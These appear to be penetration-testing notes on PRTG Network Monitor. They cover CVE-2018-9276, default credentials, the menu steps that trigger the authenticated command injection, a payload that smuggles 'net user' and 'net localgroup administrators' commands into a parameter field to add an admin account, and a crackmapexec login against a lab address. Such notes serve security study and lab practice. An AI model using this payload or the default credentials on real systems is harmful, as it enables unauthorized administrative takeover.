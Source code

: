# PRTG network monitor
## vulnerabilites (with normal POC)
* 2 XSS  
* 1 DOS  
* Command injection (authentication needed)
  * CVE-2018-9276
  * it is an authenticated command injection in the PRTG System Administrator web console for PRTG Network Monitor before version 18.2.39.  

Source: https://www.cvedetails.com/vulnerability-list/vendor_id-5034/product_id-35656/Paessler-Prtg-Network-Monitor.html
## info
usually presented in internal networks (rarely on external networks)  
common ports: 80, 443, 8080, ... (web ports)  
default credentials: prtgadmin:prtgadmin  
## exploitation
https://www.codewatch.org/blog/?p=453  
Setup / Account Settings / Notifications / Add new notification  
set name field  
tick the checkbox 'Execute Program'  
Under Program File, select Demo exe notification - outfile.ps1 from the drop-down  
in the parameter field, enter a command.  
example rce code  
<pre>test.txt;net user prtgadm1 Password_123 /add;net localgroup administrators prtgadm1 /add</pre>  
click 'Save'  
search your created notification (in the notifications list) and click on the checkbox at the end of the row  
click on 'Send test notification'  
connect to the machine with the created user  
<pre>sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Password_123</pre>
## ha hozzaferunk a fajlrendszerhez
* C:\ProgramData\Paessler mappa a default mappa ahol a config fajlok vannak
* Ott lehet siman config adat ami plain text
* Nagy file-ok vannak arra fele, ugyesen kell atnezni, valahogy greppelve
